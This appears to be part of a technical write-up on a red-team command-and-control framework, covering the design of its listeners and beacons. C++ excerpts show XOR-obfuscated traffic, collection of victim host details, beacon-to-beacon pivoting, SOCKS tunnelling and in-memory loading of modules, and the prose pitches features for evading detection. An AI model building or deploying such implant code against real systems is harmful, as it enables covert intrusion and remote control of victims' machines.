

# Part 3 — Beacons & Listeners

## What the Core Guarantees - shared contract

Exploration C2’s core package [**C2Core**](https://github.com/maxDcb/C2Core) defines the runtime contract between listeners and beacons:

* **Unified message containers**: `MultiBundleC2Message` → many `BundleC2Message` → many `C2Message`. The listener ingests a base64+XOR blob, parses it into those structures, and processes per-session payloads.

* **Per-session state** keyed by the tuple **(beaconHash, listenerHash)**, with proof-of-life updates, queued tasks, and returned task results per session.

* **Transport-agnostic**: Listeners can expose HTTP(S), TCP, DNS channels.

---

## Listener: session manager, task router, and SOCKS

The C2Core listener is where transport payloads get turned into actionable messages and sessions.

Communication channels are implemented as subclasses of a common `Listener` base.
Each concrete listener encapsulates the **transport-specific server** and runs its **event loop** on a dedicated worker thread. Below is the HTTP variant: it spins up a small HTTP(S) server, registers the endpoint(s), and forward the queries to `Listener::handleMessages()`.


```c++
class ListenerHttp : public Listener
{

public:
        ListenerHttp(const std::string& ip, int localport, const nlohmann::json& config, bool isHttps=false);
        ~ListenerHttp();
        ...

private:
    void launchHttpServ();

    int HandleCheckIn(const httplib::Request& req, httplib::Response& res);

    ...
    std::unique_ptr<std::thread> m_httpServ;
};
```

**This implementation gives developers the flexibility to add new channels easily.**


### 1) Traffic unpacking

Incoming data is **base64-decoded**, then **XOR-decrypted** with a compile-time-encrypted key, and parsed into `MultiBundleC2Message`. For each `BundleC2Message`, the listener:

* **Sets or propagates the `listenerHash`**,
* **Creates or updates a session** for the set `beaconHash` and `listenerHash`,
* **Enqueues task results** for every embedded `C2Message`.

Compile time encryption:

```c++
/**
 * @brief Compile-time XOR encryption of a string using a repeating key.
 *
 * @note This function is `constexpr` and suitable for compile-time usage, such as
 *       pre-obfuscating strings for static storage in executables.
 *       Use in conjunction with decryption logic at runtime if needed.
 */
template<std::size_t N, std::size_t M>
inline constexpr std::array<char, N> compileTimeXOR(const std::string_view data, const std::string_view key) 
{
    std::array<char, N> result{};
    std::size_t key_size = key.size();
    std::size_t j = 0;

    for (std::size_t i = 0; i < data.size(); ++i) {
        if (j == key_size) {
            j = 0;
        }

        result[i] = data[i] ^ key[j];
        ++j;
    }

    return result;
}
```

Snippet of listener main loop:

```c++
bool Listener::handleMessages(const std::string& input, std::string& output)
{
    std::string data = base64_decode(input);
    XOR(data, m_key);

    MultiBundleC2Message multiBundleC2Message;
    multiBundleC2Message.ParseFromArray(data.data(), (int)data.size());
    ...
}
```

Session creation captures context from the beacon: `username`, `hostname`, `arch`, `privilege`, `os`, `internalIps`, `processId`, `additionalInformation`. Proof-of-life is updated on every pass.

```c++
// If the session does not exist, create a new one
if(isExist==false)
{
    std::string username = bundleC2Message->username();
    ...
    std::shared_ptr<Session> session = std::make_shared<Session>(listenerhash, beaconHash, hostname, username, arch, privilege, os, internalIps, processId, additionalInformation);
    
    // Sessions managed by this listener
    m_sessions.push_back(std::move(session));
}
// If the session already exist, update the information
else
{
    std::string lastProofOfLife = bundleC2Message->lastProofOfLife();
    updateSessionProofOfLife(beaconHash, lastProofOfLife);
}
```

### 2) Task & result queues

The listener exposes per-beacon **task queues** and **result queues**:

```c++
// Queue taks to send to the related beacon
void Listener::queueTask(const std::string& beaconHash, const C2Message& c2Message)
{
    addTask(c2Message, beaconHash);
}

// Add received taks result to a queue used by a consumer
bool Listener::addTaskResult(const C2Message& taskResult, const std::string& beaconHash)
{
        for(auto it = m_sessions.begin() ; it != m_sessions.end(); ++it )
        {
                if (beaconHash == (*it)->getBeaconHash())
                {
                        (*it)->addTaskResult(taskResult);
                        ...
                }
        }
}
```

This lets the TeamServer push commands and read back results without coupling to any transport internals.


### 3) Child listeners per session for pivoting

A pivoting feature give the ability to **register ad-hoc child listeners bound to a beacon session**:

This mechanism lets a beacon report back “I spun up another listener” (e.g., to accept downstream connections). The code treats these as **child listeners** associated with the parent session. 


```c++
addSessionListener(beaconHash, listenerHash, type, param1, param2);
rmSessionListener(beaconHash, listenerHash);
getSessionListenerInfos();
```


### 4) SOCKS routing

There is a **parallel queue set** for SOCKS data (`m_socksSessions`) with APIs to **enqueue and fetch SOCKS task results** distinct from normal C2 tasks. But the transport is the same as the normal task traffic.

```c++
isSocksSessionExist(...)
addSocksTaskResult(...)
getSocksTaskResult(...)
```

This separation let the TeamServer use a thread to handle the socks traffic sepratly.

---


## Beacon: transports and module execution

The beacon provide multiple transport flavors:

* **HTTP/HTTPS**, **TCP**, **SMB**, **DNS**; each comes as a specialized beacon binary (e.g., `BeaconHttp.exe`, `BeaconTcp.exe`, `BeaconSmb.exe`).

Example:

> `BeaconHttp.exe <LISTENER_IP> <LISTENER_PORT> http/https`   
> `BeaconTcp.exe <LISTENER_IP> <LISTENER_PORT>`   
> `BeaconSmb.exe <LISTENER_IP> <PIPE_NAME>`

Using command-line arguments in the beacon may look odd from a stealth perspective. In practice, the beacon isn’t meant to be launched manually. Operationally, it should be started by a dropper/loader that handles the initial execution context, passes configuration internally and handle the heat of the local defence. The CLI exists for development, testing, and automation, not for production deployments.

Just like the `Listener`, each beacon implementation relies on the common `Beacon` class for all **task-related logic** (such as queuing, execution, and response handling). This allows each beacon variant to focus solely on **its specific communication channel**.

In the case of the **HTTP implementation**, the beacon uses a simple `POST` request to **send data to the TeamServer** (such as check-ins or task results) and **retrieve pending tasking** in return. This clean separation between **core logic** and **transport layer** makes it easy to support additional channels without duplicating task management code.

```c++
class BeaconHttp : public Beacon
{
public:
    BeaconHttp(std::string& config, std::string& ip, int port, bool https=false);
    ~BeaconHttp();

    void checkIn();
};

...

void BeaconHttp::checkIn()
{
    auto httpsUri = m_beaconHttpConfig["uri"];
    std::string endPoint = httpsUri[ rand() % httpsUri.size() ];

    std::string output;
    taskResultsToCmd(output);

    nlohmann::json httpHeaders = m_beaconHttpConfig["client"]["headers"];

    std::string input = HttpsWebRequestPost(m_ip, m_port, endPoint, output, httpHeaders, m_isHttps);
    if (!input.empty())
    {
        cmdToTasks(input);
    }

}
```


### 1) Runtime module loading (MemoryModule)

The beacon is a **small core** whose job is to communicate and **load capabilities at runtime**. Instead of baking every feature into the binary, the TeamServer can send a **module (DLL or SO)** that the beacon **executes from memory** via **MemoryModule**. This gives you:

* **Extensibility on demand.** Add features **without rebuilding** or redeploying the beacon itself.
* **Operational minimalism.** The core beacon stays **small and focused** (transport + messaging + loader), while less-frequent features live in modules that are only loaded when needed.
* **Lower static signature surface.** Fewer embedded features in the base binary means fewer stable byte patterns to match. Modules **vary per operation**, and they aren’t present until you decide to load them.
* **Diskless execution path.** Modules are delivered over the C2 channel and **loaded directly from memory** avoiding on-disk artifacts.

```c++
// Load the library from memory
HMEMORYMODULE handle = NULL;
handle = MemoryLoadLibrary((char*)buffer.data(), buffer.size());

// Find the constructor
constructProc construct = (constructProc)MemoryGetProcAddress(handle, reinterpret_cast<LPCSTR>(0x01));

// Call module constructor
ModuleCmd* moduleCmd = construct();

// Check if the lib is already loaded 
unsigned long long moduleHash = moduleCmd->getHash();
auto object = std::find_if(m_moduleCmd.begin(), m_moduleCmd.end(),
            [&](const std::unique_ptr<ModuleCmd>& obj){ return obj->getHash() == moduleHash; });
...

// Apply config if provided -> making the module configurable
std::unique_ptr<ModuleCmd> moduleCmd_(moduleCmd);
nlohmann::json config = m_modulesConfig;
for (auto& it : config.items())
{
    unsigned long long hash = djb2(it.key());
    if (moduleCmd_.get()->getHash() == hash)
    {
        moduleCmd_.get()->initConfig(it.value());
    }
}

// Add the module to the list of loaded module for futur use
m_moduleCmd.push_back(std::move(moduleCmd_));
```



---

### 2) The message model 

Message model beacon side is the same as the one implemented listener side:

* **BundleC2Message**: `beaconHash`, `listenerHash`, `username`, `hostname`, `arch`, `privilege`, `os`, `internalIps`, `processId`, `additionalInformation`, `lastProofOfLife`, and a list of **`C2Message`** entries.  
BundleC2Message are handle by beacons and listeners.

```c++
class BundleC2Message
{
public:
    BundleC2Message()
    {
    }
...
private:
    std::vector<std::unique_ptr<C2Message>> m_c2Messages;

    std::string m_beaconHash;
    std::string m_listenerHash;
    std::string m_username;
    std::string m_hostname;
    std::string m_arch;
    std::string m_privilege;
    std::string m_os;
    std::string m_lastProofOfLife;
    std::string m_internalIps;
    std::string m_processId;
    std::string m_additionalInformation;
};
```

```c++
bool Beacon::taskResultsToCmd(std::string& output)
{
    MultiBundleC2Message multiBundleC2Message;
    BundleC2Message *bundleC2Message = multiBundleC2Message.add_bundlec2messages();

    // Add context info
    bundleC2Message->set_beaconhash(m_beaconHash);
    bundleC2Message->set_hostname(m_hostname);
    bundleC2Message->set_username(m_username);
    bundleC2Message->set_arch(m_arch);
    bundleC2Message->set_privilege(m_privilege);
    bundleC2Message->set_os(m_os);
    bundleC2Message->set_lastProofOfLife("0");
    bundleC2Message->set_internalIps(m_ips);
    bundleC2Message->set_processId(m_pid);
    bundleC2Message->set_additionalInformation(m_additionalInfo);
    ...
}
```

* **C2Message**: carries an `instruction`, plus whatever payload the module/command uses.  
C2Message are handle by modules.

```c++
class C2Message
{
public:

    C2Message()
    {
    }
...
private:
    std::string m_instruction;
    std::string m_cmd;
    std::string m_returnValue;
    std::string m_inputFile;
    std::string m_outputFile;
    std::string m_data;    
    std::string m_args;
    int m_pid;
    int m_errorCode;
    std::string m_uuid;
};
```

```c++
int Cat::process(C2Message &c2Message, C2Message &c2RetMessage)
{
    c2RetMessage.set_instruction(c2RetMessage.instruction());
    c2RetMessage.set_cmd(c2Message.inputfile());
    c2RetMessage.set_inputfile(c2Message.inputfile());

    ...

    if(...)
    {
        c2RetMessage.set_returnvalue(buffer);
    }
    else
    {
        c2RetMessage.set_errorCode(ERROR_OPEN_FILE);
    }

    return 0;
}
```

**Transport framing**: payloads are base64-encoded and XOR’d on the wire; the listener decrypts with a compile-time-encrypted key.

---

### 3) Ad-hoc beacon-to-beacon connections (SMB & TCP)

**SMB** and **TCP** are best suited for beacon to beacon transports. The listener’s **child listener registry** (`addSessionListener/rmSessionListener`) provides the plumbing for **per-session, dynamically created listeners**. That’s the hook you need for **ad-hoc beacon-to-beacon meshes/pivots** (e.g., a TCP or SMB child listener stood up by one beacon for downstream beacons).

```c++
bool Beacon::handleListenerInstruction(C2Message& c2Message, C2Message& c2RetMessage)
{
    std::string cmd = c2Message.cmd();
    ...

    if (splitedCmd[0] == StartCmd)
    {
        if (splitedCmd[1] == ListenerSmbType)
        {
            ...
            auto listenerSmb = std::make_unique<ListenerSmb>(host, pipeName);
            m_listeners.push_back(std::move(listenerSmb));
            ...
        }
        else if (splitedCmd[1] == ListenerTcpType)
        {
            ...
            auto listenerTcp = std::make_unique<ListenerTcp>(localHost, localPort);
            m_listeners.push_back(std::move(listenerTcp));
            ...
        }
    }
    else if (splitedCmd[0] == StopCmd)
    {
        ...
    }

    return;
}


// Distribute commands from C2 address to this beacon and child beacons
bool Beacon::cmdToTasks(const std::string& input)
{
    ...
    // Iterate over each BundleC2Message in the multi-bundle message
    for (int k = 0; k < multiBundleC2Message.bundlec2messages_size(); k++) 
    {
        BundleC2Message* bundleC2Message = multiBundleC2Message.bundlec2messages(k);

        // Check if the message is addressed to this beacon
        std::string beaconhash = bundleC2Message->beaconhash();
        if(beaconhash==m_beaconHash)
        {
            ...
        }
        // Otherwise, the message is for a session handle by a local listener
        else
        {
            // Iterate through all the local listeners
            for(int i=0; i<m_listeners.size(); i++)
            {
                // Check each session os this local listener
                for(std::size_t j=0; j<m_listeners[i]->getNumberOfSession(); j++)
                {
                    ...
                }
            }
        }
        ...
    }
    ...
}
```

A new beacon will **connect to this beacon-listener as it would to the TeamServer**. Then the messaging will follow the same path as normal traffic to reach the TeamServer ultimatly. Traffic is bi directional and will also handle the socks5 messages.

---

### 4) SOCKS beacons

When the socks traffic fanaly reach the target beacon, it will do the requested task and forward the result using the same traffic path.

```c++
bool Beacon::handleSocks5Instruction(C2Message& c2Message, C2Message& c2RetMessage)
{
    if (c2Message.cmd() == StartCmd)
    {
        ...
    }
    else if (c2Message.cmd() == StopSocksCmd)
    {
        ...
    }
    else if (c2Message.cmd() == InitCmd)
    {
        // Init the connection to the requested ip/port using a SocksTunnelClient
        std::unique_ptr<SocksTunnelClient> socksTunnelClient = std::make_unique<SocksTunnelClient>(c2Message.pid());
        uint32_t ip_dst = std::stoi(c2Message.data());
        uint16_t port = std::stoi(c2Message.args());
        int initResult = socksTunnelClient->init(ip_dst, port);
        ...
    }
    else if (c2Message.cmd() == RunCmd)
    {
        // Find the requested initialised SocksTunnelClient requested to interact with
        for (int i = 0; i < m_socksTunnelClient.size(); i++)
        {
            if (m_socksTunnelClient[i]->getId() == c2Message.pid())
            {
                // Deliver the data to the socket and get the result to be forwarded back to the TeamServer and finaly the tool using the socks server
                std::string dataOut;
                int res = m_socksTunnelClient[i]->process(c2Message.data(), dataOut);
                c2RetMessage.set_data(dataOut);
            }
        }
    }
    else if (c2Message.cmd() == StopCmd)
    {
        ...
    }

    ...

    return false;
}
```

---

### 5) Beacon basic commands

Beacons are intentionally **minimal**—most features come from **loadable modules**—but a small set of **built-in commands** is embedded in the beacon itself (see `modules/ModuleCmd/CommonCommand.hpp`). These provide the baseline control plane the TeamServer needs before any module is loaded.

**Command names:**

```text
sleep
end
listener
loadModule
unloadModule
```

* `sleep` — adjusts the beacon’s timing/polling interval.
* `end` — orderly termination.
* `listener` — listener/session management. 
* `loadModule` — push a module (DLL/SO bytes) and load it **in memory** (MemoryModule).
* `unloadModule` — remove a previously loaded module.

---

## What’s next

[Part 4 — Modules](./Part4Modules.md).  